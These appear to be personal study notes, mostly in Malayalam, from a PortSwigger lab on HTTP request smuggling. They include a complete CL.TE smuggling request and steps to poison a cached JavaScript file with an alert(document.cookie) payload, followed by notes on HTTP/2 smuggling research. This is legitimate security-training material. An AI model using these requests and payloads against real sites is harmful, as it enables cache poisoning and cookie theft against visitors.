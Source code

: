 ```http
POST / HTTP/1.1
Host: 0a8100fe0454db44c0b86a2700430036.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked
							
0
							
GET /post/next?postId=1 HTTP/1.1   ---1)
Host: josu                         ---2)
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
							
x=1
```
-->so namuk ee request smuggle chyumbol namuk ishtamulla host ilek redirect chyan patunund
-->ini namude exploit server il poi file:  /post enn kodukuka.karanam blog post inte next post edukuna redirection request aanalo namal smuggle chyunath.athayath ivide 1). 
-->http content-type application/javscript ennath maati text/javascript ennakuka.ini body il alert(document.cookie) enn koduth save chyuka
-->ini enth venamenal http history pokuka.athil kanan patum home page load aakumbol `GET /resources/js/tracking.js`   enna oru javascript file ilek request pokunund.so ee file application retrieve chyunu.ithinte reponse il nokiyal kanam x-cache: hit een so ee request inte response cache chyapedunund
-->so ee request eduth repeater il iduka
-->ini mukalile main payload ile 2) host: exploitserver url kodukuka
-->ini send adikuka enit namude  `GET /resources/js/tracking.js`  request thottapurathe undakumalo athum send adikuka.angane mari mari send adichondirikuka
-->so aadyam redirection request aan send adikendath.enitan eee /tracking.js request send chyendath
-->ith engane nadakunun ennal namal next post alle smuggle chyunath.so ee smuggled request backend process chyth kazhinjal ee request in venda js files aan namal GET /resources/js/tracking.js  enn request ilude edukunath.so angane varumbol namude exploit server il ninum alert(document.cookie) edukunu..angane aanen thonun enik sherik katheela

==============================================================

# ==Advances HTTP request smuggling :==

### HTTP/2 -The sequel is always worse(james kettle)
-->http/1.1 ennath string format il aan read chyunath but http/2 binary format il aan read chyunath
-->the majority of servers that speak http/2 to the client actually rewrite requests as h1 inorder to talk to the back-end server.this behaviour is very common
-->http/1.1 and http/2 are spoken on the same port.so the client needs to know which protocol it should be speaking
-->HTTP/1 is a text-based protocol, so requests are parsed using string operations. For example, a server needs to look for a colon in order to know when a header name ends.
-->HTTP/2 is a binary protocol like TCP, so parsing is based on predefined offsets and much less prone to ambiguity
-->source -> https://portswigger.net/research/http2
HTTP/2 messages are sent over the wire as a series of separate "frames".Therefore, the length of the request is the sum of its frame lengths.
